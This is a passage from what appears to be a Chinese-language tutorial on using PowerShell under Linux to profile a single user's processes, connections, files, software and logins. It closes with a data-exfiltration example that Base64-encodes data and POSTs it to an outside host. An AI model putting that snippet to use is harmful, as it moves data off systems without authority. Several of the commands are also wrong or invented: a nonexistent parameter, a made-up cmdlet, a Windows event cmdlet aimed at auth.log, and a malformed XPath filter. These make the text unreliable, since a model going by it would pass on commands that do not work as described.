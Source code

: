 这个脚本列出 **andrewblyth** 用户正在运行的进程。

## 网络连接

在 Linux 上使用 PowerShell 可以提供有关与用户关联的网络连接的见解。一个示例是列出特定用户的网络连接：

```
 # Get network connections for a specific user
Get-NetTCPConnection -OwningUser "andrewblyth"
```

此命令显示由用户**andrewblyth**拥有的 TCP 连接的信息。

## 文件和目录访问

分析涉及了解用户的文件和目录访问。PowerShell 可用于列出用户可以访问的文件和目录：

```
 # List files and directories for a specific user
Get-ChildItem -Path /home/andrewblyth
```

此脚本提供了用户家目录**andrewblyth**中文件和目录的列表。

## 安装的软件

PowerShell 可以查询 Linux 系统上安装的软件，允许对用户的软件环境进行分析。以下是使用假设的**Get-InstalledSoftware** cmdlet 的示例：

```
 # Get installed software for a specific user
Get-InstalledSoftware -User "andrewblyth"
```

此 cmdlet 将检索为用户**andrewblyth**安装的软件列表。

## 最近的活动

在 Linux 上使用 PowerShell 可以查询系统日志以收集有关用户最近活动的信息。一个示例是检索用户的最近登录事件：

```
 # Get recent login events for a specific user
Get-WinEvent -LogName auth.log -FilterXPath "*[System[(EventID=1) and EventData[Data[@Name='user']='$andrewblyth]]]" -MaxEvents 10
```

此示例从**auth.log**文件中检索用户**andrewblyth**的最后 10 个身份验证事件。

## 数据外泄

PowerShell 可以用于在 Linux 上进行数据外泄，使用各种技术。一种常见方法是将数据编码为 Base64 并通过网络发送。以下是一个假设的示例：

```
 # Encode and send data to a remote server
$data = "SensitiveData"
$encodedData = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($data))
Invoke-WebRequest -Uri "https://snpowcapcyber.com.com/upload.php" -Method POST -Body $encodedData
```
